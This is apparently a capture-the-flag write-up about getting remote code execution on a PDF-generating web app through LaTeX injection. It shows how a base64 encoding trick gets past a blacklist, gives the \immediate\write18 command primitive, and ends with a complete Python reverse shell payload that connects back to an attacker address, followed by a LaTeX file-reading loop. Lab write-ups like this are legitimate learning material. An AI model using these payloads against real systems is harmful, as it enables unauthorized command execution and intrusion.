 +++

## J00_w1ll_f1Nd_n07H1n9_H3r3

Finally we're we need to be for the joooooice! we find out selve on a little web app that makes pdf's for some kind of firm that puts the header to make official on the pdf. The input isn't properly sanatized we can use. this app uses latex to structure and build the documents submited into the desired format. we are interested in the ability to run commands/ 

after some expierentation i found what i need to get rce. 

1)

![final-webpage](https://chickenpwny.github.io/images/final-webpage.PNG)

2) playing around with burp![final-webpage-black-list](https://chickenpwny.github.io/images/final-webpage-black-list.PNG)

3) when it is base64 encoded is bypass bypass restrictions. webapp can read base64 soemthing that b missed![final-webpage-black-list-b64](https://chickenpwny.github.io/images/final-webpage-black-list-b64.PNG)

4)After some time found what i needed to get rce. 

```
\immediate\write18{CMD GOES HERE}
```

5) We can script it in to encode it b64![final-webpage3](https://chickenpwny.github.io/images/final-webpage3.PNG)

6)i used python to get a rshell. 0xdf used rm/nc

### python reverse shell -- success

```
content=\immediate\write18{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.159",9080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > chickenp.sh|base64 > chickenp.sh}

\newread\file

\openin\file=chickenp.sh

\loop\unless\ifeof\file

\read\file to\fileline

\text{\fileline}

\repeat

\closein\file

Run1

&template=test3
```
